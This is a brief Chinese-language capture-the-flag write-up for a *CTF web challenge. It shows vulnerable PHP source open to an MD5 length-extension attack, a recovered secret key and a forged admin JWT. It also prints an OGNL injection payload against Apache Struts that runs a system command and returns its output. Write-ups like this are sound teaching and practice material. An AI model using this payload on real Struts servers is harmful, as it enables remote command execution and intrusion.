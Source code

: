\*ctf
# web
### jwt2struts
```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

md5扩展攻击

获取到secret-key`sk-he00lctf3r` 根据题目名也知道应该是要考struts
伪造jwt为admin
在age框里输入*payload*可以回显命令执行结果
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```


# reverse
### GoGpt
一道go的逆向题

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-31   18:44
